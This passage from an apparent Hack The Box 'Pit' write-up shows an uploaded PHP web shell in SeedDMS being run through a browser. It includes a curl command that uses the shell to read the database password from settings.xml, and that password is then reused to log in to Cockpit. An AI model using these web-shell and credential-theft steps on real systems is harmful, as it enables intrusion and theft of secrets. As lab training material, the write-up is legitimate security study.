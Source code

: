 __Third,__ Go to `http://dms-pit.htb/seeddms51x/seeddms/data/1048576/29/1.php?cmd=id` to get the command response in browser.
* "data" and "1048576" are default folders where the uploaded files are get saved.
* any file name renamed to `1`

![](screenshots/php-shell.png)

_Reverse shell is not working_ **Reason: [SElinux](https://www.redhat.com/en/topics/linux/what-is-selinux); ippsec [explained](https://www.youtube.com/watch?v=IF5uhe1qR2I&t=3380s)**

After some enumeration from web shell, found database creds. 
```bash
❯ curl -s 'http://dms-pit.htb/seeddms51x/data/1048576/35/1.php?cmd=cat+../../../conf/settings.xml|grep+dbPass|tail+-n1'
<pre>    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
</pre>%
```

Creds worked for cockpit server with username "michelle".

![](screenshots/cockpit-logedin.png)


And get the user shell on host form cockpit terminal.
